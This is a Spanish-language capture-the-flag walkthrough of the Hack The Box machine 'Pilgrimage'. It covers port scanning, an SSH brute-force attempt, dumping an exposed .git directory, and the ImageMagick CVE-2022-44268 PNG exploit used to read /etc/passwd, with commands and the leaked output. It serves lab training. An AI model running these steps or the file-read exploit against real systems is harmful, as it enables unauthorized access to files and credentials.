

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# ✅ Pilgrimage


<figure><figcaption></figcaption></figure>

```
10.10.11.219  pilgrimage.htb/
```

Primero configuramos el host:

<figure><figcaption></figcaption></figure>

## Reconocimiento:

```
sudo nmap -sS -p- -Pn --open 10.10.11.219 -vvv -oG PORT.txt
```

<figure><figcaption></figcaption></figure>

Por ahora se puede saber que es una maquina linux con 2 puertos abiertos.

```
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Realice algunas prueba de conexion a ssh pero no tuve exitos.

```
ssh root@10.10.11.219
ssh admin@10.10.11.219
```

Decido probar un script de fuerza bruta contra ssh ya que nunca lo utilice, pero lo cancele ya que tardara mucho.

```
nmap -p 22 --script ssh-brute  10.10.11.219
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-05 18:22 UTC
NSE: [ssh-brute] Trying username/password pair: root:root
NSE: [ssh-brute] Trying username/password pair: admin:admin
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: webadmin:webadmin
NSE: [ssh-brute] Trying username/password pair: sysadmin:sysadmin
NSE: [ssh-brute] Trying username/password pair: netadmin:netadmin
NSE: [ssh-brute] Trying username/password pair: guest:guest
NSE: [ssh-brute] Trying username/password pair: user:user
NSE: [ssh-brute] Trying username/password pair: web:web
NSE: [ssh-brute] Trying username/password pair: test:test
NSE: [ssh-brute] Trying username/password pair: root:
NSE: [ssh-brute] Trying username/password pair: admin:
NSE: [ssh-brute] Trying username/password pair: administrator:
NSE: [ssh-brute] Trying username/password pair: webadmin:
NSE: [ssh-brute] Trying username/password pair: sysadmin:
NSE: [ssh-brute] Trying username/password pair: netadmin:
NSE: [ssh-brute] Trying username/password pair: guest:
NSE: [ssh-brute] Trying username/password pair: user:
NSE: [ssh-brute] Trying username/password pair: web:
NSE: [ssh-brute] Trying username/password pair: test:
NSE: [ssh-brute] Trying username/password pair: root:123456
```

Ahora decido entrar a la web.

<figure><figcaption></figcaption></figure>

Tiene algunas cosas interesante,para probar mas adelante,mientras tanto seguire con el reconocimeinto manual.

<figure><figcaption></figcaption></figure>

Me registre como admin y contraseña admin,y me llevo a Dashboard,pero no veo muchas cosas.

<figure><figcaption></figcaption></figure>

## Enumeracion de directorios.

Utilice gobuster con la wordlist de PHP.fuzz.txt.

```
gobuster dir -u http://pilgrimage.htb/dashboard.php -w ~/.repositories/SecLists/Discovery/Web-Content/PHP.fuzz.txt
```

<figure><figcaption></figcaption></figure>

Utilice tambien feroxbuster y use --filter-status para que no muestre los estados 400.

```
feroxbuster --url http://pilgrimage.htb -w ~/.repositories/SecLists/Discovery/Web-Content/common.txt 
--filter-status 400 401 402 403 404
```

```
❯ feroxbuster --url http://pilgrimage.htb -w ~/.repositories/SecLists/Discovery/Web-Content/common.txt --filter-status 400 401 402 403 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://pilgrimage.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /home/titan/.repositories/SecLists/Discovery/Web-Content/common.txt
 💢  Status Code Filters   │ [400, 401, 402, 403, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      198l      494w        0c http://pilgrimage.htb/
301      GET        7l       11w      169c http://pilgrimage.htb/.git => http://pilgrimage.htb/
.git/
200      GET        1l        2w       23c http://pilgrimage.htb/.git/HEAD
200      GET        5l       13w       92c http://pilgrimage.htb/.git/config
200      GET       16l       58w     3768c http://pilgrimage.htb/.git/index
301      GET        7l       11w      169c http://pilgrimage.htb/assets => http://pilgrimage.ht
b/assets/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/css => http://pilgrimag
e.htb/assets/css/
200      GET      198l      494w        0c http://pilgrimage.htb/index.php
301      GET        7l       11w      169c http://pilgrimage.htb/.git/hooks => http://pilgrimag
e.htb/.git/hooks/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/info => http://pilgrimage
.htb/.git/info/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/logs => http://pilgrimage
.htb/.git/logs/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects => http://pilgrim
age.htb/.git/objects/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/images => http://pilgri
mage.htb/assets/images/
301      GET        7l       11w      169c http://pilgrimage.htb/assets/js => http://pilgrimage
.htb/assets/js/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/06 => http://pilg
rimage.htb/.git/objects/06/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/11 => http://pilg
rimage.htb/.git/objects/11/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/23 => http://pilg
rimage.htb/.git/objects/23/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/50 => http://pilg
rimage.htb/.git/objects/50/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/96 => http://pilg
rimage.htb/.git/objects/96/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/ca => http://pilg
rimage.htb/.git/objects/ca/
301      GET        7l       11w      169c http://pilgrimage.htb/tmp => http://pilgrimage.htb/t
mp/
200      GET        6l       43w      240c http://pilgrimage.htb/.git/info/exclude
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/cd => http://pilg
rimage.htb/.git/objects/cd/
301      GET        7l       11w      169c http://pilgrimage.htb/vendor => http://pilgrimage.ht
b/vendor/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/dc => http://pilg
rimage.htb/.git/objects/dc/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/fa => http://pilg
rimage.htb/.git/objects/fa/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/fb => http://pilg
rimage.htb/.git/objects/fb/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/info => http://pi
lgrimage.htb/.git/objects/info/
301      GET        7l       11w      169c http://pilgrimage.htb/.git/objects/pack => http://pi
lgrimage.htb/.git/objects/pack/
301      GET        7l       11w      169c http://pilgrimage.htb/vendor/jquery => http://pilgri
mage.htb/vendor/jquery/
```

## Git

Siguiendo con el reconocimeinto tambien con una extencion en el navegador descubri que tiene .git.

<figure><figcaption></figcaption></figure>

Utilice la herramienta `gitdump` para un mejor reconocimiento.

```
gitdump http://pilgrimage.htb/.git/
URL for test: http://pilgrimage.htb/.git/
Fetching: http://pilgrimage.htb/.git/index
Fetching: http://pilgrimage.htb/.git/FETCH_HEAD
Fetching: http://pilgrimage.htb/.git/HEAD
Fetching: http://pilgrimage.htb/.git/ORIG_HEAD
Fetching: http://pilgrimage.htb/.git/config
Fetching: http://pilgrimage.htb/.git/description
Fetching: http://pilgrimage.htb/.git/packed-refs
Fetching: http://pilgrimage.htb/.git/info/exclude
Fetching: http://pilgrimage.htb/.git/info/refs
Fetching: http://pilgrimage.htb/.git/logs/HEAD
Fetching: http://pilgrimage.htb/.git/logs/refs/heads/develop
Fetching: http://pilgrimage.htb/.git/logs/refs/heads/master
Fetching: http://pilgrimage.htb/.git/logs/refs/remotes/origin/develop
Fetching: http://pilgrimage.htb/.git/logs/refs/remotes/origin/step_develop
Fetching: http://pilgrimage.htb/.git/logs/refs/remotes/origin/master
Fetching: http://pilgrimage.htb/.git/logs/refs/remotes/github/master
Fetching: http://pilgrimage.htb/.git/refs/heads/develop
Fetching: http://pilgrimage.htb/.git/refs/heads/master
Fetching: http://pilgrimage.htb/.git/refs/remotes/origin/develop
Fetching: http://pilgrimage.htb/.git/refs/remotes/origin/master
Fetching: http://pilgrimage.htb/.git/refs/remotes/origin/step_develop
Fetching: http://pilgrimage.htb/.git/refs/remotes/github/master
Fetching: http://pilgrimage.htb/.git/objects/info/packs
Fetching: http://pilgrimage.htb/.git/refs/remotes/origin/HEAD
Parsing Index File
Fetching: http://pilgrimage.htb/.git/objects/ff/dbd328a3efc5dad2a97be47e64d341d696576c
Fetching: http://pilgrimage.htb/.git/objects/c3/27c2362dd4f8eb980f6908c49f8ef014d19568
Fetching: http://pilgrimage.htb/.git/objects/c2/a4c2fd4e5b2374c6e212d1800097e3b30ff4e2
Fetching: http://pilgrimage.htb/.git/objects/88/16d69710c5d2ee58db84afa5691495878f4ee1
Fetching: http://pilgrimage.htb/.git/objects/47/6364752c5fa7ad9aa10f471dc955aac3d3cf34
Fetching: http://pilgrimage.htb/.git/objects/c4/18930edec4da46019a1bac06ecb6ec6f7975bb
Fetching: http://pilgrimage.htb/.git/objects/00/00000000000000000000000000000000000000
Fetching: http://pilgrimage.htb/.git/objects/fa/175a75d40a7be5c3c5dee79b36f626de328f2e
Fetching: http://pilgrimage.htb/.git/objects/e1/a40beebc7035212efdcb15476f9c994e3634a7
Fetching: http://pilgrimage.htb/.git/objects/8a/62aac3b8e9105766f3873443758b7ddf18d838
Fetching: http://pilgrimage.htb/.git/objects/dc/446514835fe49994e27a1c2cf35c9e45916c71
Fetching: http://pilgrimage.htb/.git/objects/2f/9156e434cfa6204c9d48733ee5c0d86a8a4e23
Fetching: http://pilgrimage.htb/.git/objects/c4/3565452792f19d2cf2340266dbecb82f2a0571
Fetching: http://pilgrimage.htb/.git/objects/b2/15e14bb4766deff4fb926e1aa080834935d348
Fetching: http://pilgrimage.htb/.git/objects/47/cec0036571e526f99b03d20ceda3c0d6514276
Fetching: http://pilgrimage.htb/.git/objects/29/4ee966c8b135ea3e299b7ca49c450e78870b59
Fetching: http://pilgrimage.htb/.git/objects/76/a559577d4f759fff6af1249b4a277f352822d5
Fetching: http://pilgrimage.htb/.git/objects/46/44c40a1f15a1eed9a8455e6ac2a0be29b5bf9e
Fetching: http://pilgrimage.htb/.git/objects/cd/2774e97bfe313f2ec2b8dc8285ec90688c5adb
Fetching: http://pilgrimage.htb/.git/objects/c2/cbe0c97b6f3117d4ab516b423542e5fe7757bc
Fetching: http://pilgrimage.htb/.git/objects/8e/42bc52e73caeaef5e58ae0d9844579f8e1ae18
Fetching: http://pilgrimage.htb/.git/objects/f1/8fa9173e9f7c1b2f30f3d20c4a303e18d88548
Fetching: http://pilgrimage.htb/.git/objects/11/dbdd149e3a657bc59750b35e1136af861a579f
Fetching: http://pilgrimage.htb/.git/objects/5f/ec5e0946296a0f09badeb08571519918c3da77
Fetching: http://pilgrimage.htb/.git/objects/06/19fc1c747e6278bbd51a30de28b3fcccbd848a
Fetching: http://pilgrimage.htb/.git/objects/fb/f9e44d80c149c822db0b575dbfdc4625744aa4
Fetching: http://pilgrimage.htb/.git/objects/96/3349e4f7a7a35c8f97043c20190efbe20d159a
Fetching: http://pilgrimage.htb/.git/objects/a5/29d883c76f026420aed8dbcbd4c245ed9a7c0b
Fetching: http://pilgrimage.htb/.git/objects/1f/8ddab827030fbc81b7cb4441ec4c9809a48bc1
Fetching: http://pilgrimage.htb/.git/objects/e9/2c0655b5ac3ec2bfbdd015294ddcbe054fb783
Fetching: http://pilgrimage.htb/.git/objects/b6/c438e8ba16336198c2e62fee337e126257b909
Fetching: http://pilgrimage.htb/.git/objects/6c/965df00a57fd13ad50b5bbe0ae1746cdf6403d
Fetching: http://pilgrimage.htb/.git/objects/b4/21518638bfb4725d72cc0980d8dcaf6074abe7
Fetching: http://pilgrimage.htb/.git/objects/2b/95e3c61cd8f7f0b7887a8151207b204d576e14
Fetching: http://pilgrimage.htb/.git/objects/54/4d28df79fe7e6757328f7ecddf37a9aac17322
Fetching: http://pilgrimage.htb/.git/objects/f2/b67ac629e09e9143d201e9e7ba6a83ee02d66e
Fetching: http://pilgrimage.htb/.git/objects/fd/90fe8e067b4e75012c097a088073dd1d3e75a4
Fetching: http://pilgrimage.htb/.git/objects/50/210eb2a1620ef4c4104c16ee7fac16a2c83987
Fetching: http://pilgrimage.htb/.git/objects/49/cd436cf92cc28645e5a8be4b1973683c95c537
Fetching: http://pilgrimage.htb/.git/objects/1f/2ef7cfabc9cf1d117d7a88f3a63cadbb40cca3
Script Executed Successfully
Run following command to retrieve source code: cd output && git checkout -- .
```

Decidi utilizar `git-dumper` y coloque la ruta donde queda el contenido.

```
git-dumper http://pilgrimage.htb/ ~/Desktop/HTB/Pilgrimage/contend/ 
```

<figure><figcaption></figcaption></figure>

## Explotacion

Sabiendo que magick se puede ejecutar decidi ver su version.

<figure><figcaption></figcaption></figure>

```
ImageMagick 7.1.0-49
```

Buscando su vulnerabilidad:



Un actor malintencionado podría crear un archivo PNG o utilizar uno existente y agregar un tipo de fragmento de texto (por ejemplo, `tEXt`). Estos tipos tienen una palabra clave y una cadena de texto. Si la palabra clave es la cadena "profile" (sin comillas), entonces ImageMagick interpretará la cadena de texto como un nombre de archivo y cargará el contenido como un perfil sin procesar. Luego, el atacante puede descargar la imagen redimensionada que contendrá el contenido de un archivo remoto.

Para hacer una imagen maliciosa se puede usar este exploit:&#x20;



### Fase de explotacion con la herramienta.

Instalar

```
sudo pacman -S imagemagick
```

#### Clone el proyecto

`git clone https://github.com/voidz0r/CVE-2022-44268`

#### Correr el projecto agregando como objectivo a `/etc/passwd`

`cargo run "/etc/passwd"`

El camino de explotación consiste en crear un archivo PNG malicioso con un fragmento `tEXT` que contiene un atributo `profile` que hace referencia a un archivo local. Cuando se utiliza la herramienta para convertir, modificar o procesar de alguna otra manera la imagen, el contenido de los archivos referenciados se incorpora en la nueva imagen.

<figure><figcaption></figcaption></figure>

#### ImageMagick : Utilizar identify para que muestre el metadato del codigo

`identify -verbose 656faa9fd2023.png`

<figure><figcaption></figcaption></figure>

Pasar desde Hex a texto.



<figure><figcaption></figcaption></figure>

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Como resultado ,nos demuestra que la ejecucion funciono y dejo algunos datos importantes.

```
_laurel:x:998:998::/var/log/laurel:/bin/false
```

```
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
```

El objectivo es hacer otra ejecucion mas ,pero a otros directorios para recaudar ma sinformacion.
